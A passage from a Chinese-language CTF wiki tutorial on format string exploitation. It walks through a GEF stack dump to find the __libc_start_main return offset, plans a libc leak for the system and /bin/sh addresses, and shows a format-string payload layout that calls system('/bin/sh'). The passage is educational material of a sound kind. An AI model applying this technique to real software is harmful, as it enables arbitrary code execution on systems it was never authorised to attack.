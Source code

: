 ```shell
0xffffcd04│+0x08: 0x0804c410  →  "11111"
0xffffcd08│+0x0c: 0xf7e5acab  →  <puts+11> add ebx, 0x152355
0xffffcd0c│+0x10: 0x00000000
0xffffcd10│+0x14: 0xf7fad000  →  0x001b1db0
0xffffcd14│+0x18: 0xf7fad000  →  0x001b1db0
0xffffcd18│+0x1c: 0xffffcd48  →  0xffffcd78  →  0x00000000	 ← $ebp
0xffffcd1c│+0x20: 0x08048c99  →   add DWORD PTR [ebp-0xc], 0x1
0xffffcd20│+0x24: 0x0804b0a8  →  "11111"
0xffffcd24│+0x28: 0x00002b67 ("g+"?)
0xffffcd28│+0x2c: 0x0804c410  →  "11111"
0xffffcd2c│+0x30: 0x0804c420  →  "1234567"
0xffffcd30│+0x34: 0xf7fadd60  →  0xfbad2887
0xffffcd34│+0x38: 0x08048ed6  →  0x25007325 ("%s"?)
0xffffcd38│+0x3c: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd3c│+0x40: 0x00000000
0xffffcd40│+0x44: 0xf7fad000  →  0x001b1db0
0xffffcd44│+0x48: 0x00000000
0xffffcd48│+0x4c: 0xffffcd78  →  0x00000000
0xffffcd4c│+0x50: 0x080487a2  →   jmp 0x80487b3
0xffffcd50│+0x54: 0x0804b0a0  →  0x0804c420  →  "1234567"
0xffffcd54│+0x58: 0xffffcd68  →  0x00000004
0xffffcd58│+0x5c: 0x00000050 ("P"?)
0xffffcd5c│+0x60: 0x00000000
0xffffcd60│+0x64: 0xf7fad3dc  →  0xf7fae1e0  →  0x00000000
0xffffcd64│+0x68: 0x08048288  →  0x00000082
0xffffcd68│+0x6c: 0x00000004
0xffffcd6c│+0x70: 0x0000000a
0xffffcd70│+0x74: 0xf7fad000  →  0x001b1db0
0xffffcd74│+0x78: 0xf7fad000  →  0x001b1db0
0xffffcd78│+0x7c: 0x00000000
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
0xffffcd80│+0x84: 0x00000001
0xffffcd84│+0x88: 0xffffce14  →  0xffffd00d  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/201[...]"
0xffffcd88│+0x8c: 0xffffce1c  →  0xffffd058  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
```

我們可以通過簡單的判斷可以得到

```
0xffffcd7c│+0x80: 0xf7e13637  →  <__libc_start_main+247> add esp, 0x10
```

存儲的是__libc_start_main的返回地址，同時利用 fmtarg 來獲取對應的偏移，可以看出其偏移爲 32，那麼相對於格式化字符串的偏移爲 31。

```shell
gef➤  fmtarg 0xffffcd7c
The index of format argument : 32
```

這樣我們便可以得到對應的地址了。進而可以根據 libc-database 來獲取對應的 libc，繼而獲取 system 函數地址與 /bin/sh 函數地址了。

其次，我們可以確定棧上存儲格式化字符串的地址 0xffffcd2c 相對於格式化字符串的偏移爲 11，得到這個是爲了尋址堆中指定聯繫人的Description的內存首地址，我們將格式化字符串[system_addr][bbbb][binsh_addr][%6$p][%11$p][bbbb]保存在指定聯繫人的Description中。
